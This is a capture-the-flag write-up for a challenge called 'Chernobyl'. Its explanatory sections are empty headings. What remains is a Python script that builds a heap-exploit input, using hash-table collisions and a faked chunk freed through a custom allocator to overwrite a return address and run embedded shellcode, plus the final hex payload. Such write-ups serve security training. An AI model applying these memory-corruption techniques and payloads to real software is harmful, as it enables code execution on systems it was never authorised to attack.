 # Chernobyl - 300 points
 
## The idea
Creating a hash-table collision to exploit of function `free` and overwrite a return value.

## The way
This is one of the challenges that took me the longest to solve. And more than that, to explain.<br />
In my explanation I will try to give you an intuition for the solution.<br />
By the way, it must be said in fairness that the trial and error here actually took a lot of time.<br />
And so remember that when I explain for example about `malloc`, it's not because I had prior knowledge.<br />
But because I stared at the function a lot, I debugged it and that's how I understood things.<br />
This is also true for the hash table structure implemented here, etc.

Also, I believe there are multiple (similar) ways to solve this challenge.<br />
Personally, I succeeded in 3 ways.<br />
The first time I solved it was very forced and difficult to explain.<br />
When I wanted to explain what I did, I solved the challenge the second time in a better way.<br />
And from this I understood a third way which is relatively "simpler" and smarter.

So I will explain the third way. So let's start.

### Black box test:


### Explore the code:

### How to exploit:

```python
#last!
def h(string):
    index = 0
    for l in string:
        index += ord(l)
        index *= 31
    return index & 7

input1 = (b'new ' + b'\x0f\xef\x7f\x40\x7f\x11\x0f\x12\xb0\x12\xec\x4c' + b' 0;').hex() # קוד שפותח את הדלת ללא הבית 0 וללא הבית רווח. ראו תמונה
input2 = (b'new ' + b'\x22'*2 + b' 0;').hex()
input3 = (b'new ' + b'\x33'*2 + b' 0;').hex()
input4 = (b'new ' + b'\x44'*2 + b' 0;').hex()
input5 = (b'new ' + b'\x55'*2 + b' 0;').hex()

input6 = (b'new '+b'\xf2\x43'+ b'\x3c\x53'+ b'\xff\x0b' +b'\x44' + b' 0;').hex()# גם מדלג לאיבר האחרון ולכן לא דופק את מאללוק, וגם כאשר יבדק הנקסט של הצאנק המזוייף הוא יהיה כבר תפוס מהטבלה הבאה ולכן לא יפריע לגודל שחושב כבר
#וזאת אותה טכניקה כמו באלגירס. להתייחס למקום שנרצה לשנות כגודל של צאנק

input7 = (b'new a 0;').hex()
input8 = (b'new b 0;').hex()
input9 = (b'new c 0;').hex()
input10 = (b'new d 0;').hex()
input11 = (b'new e 0;').hex()

input12 = (b'new f 0;').hex() # after rehash.

input1 + input2 + input3 + input4 + input5 +input6 +input7 + input8 + input9 + input10 + input11 + input12 + '01'


```

## The cracking input (as bytes)
```
6e6577200fef7f407f110f12b012ec4c20303b6e657720222220303b6e657720333320303b6e657720444420303b6e657720555520303b6e657720f2433c53ff0b4420303b6e6577206120303b6e6577206220303b6e6577206320303b6e6577206420303b6e6577206520303b6e6577206620303b01
```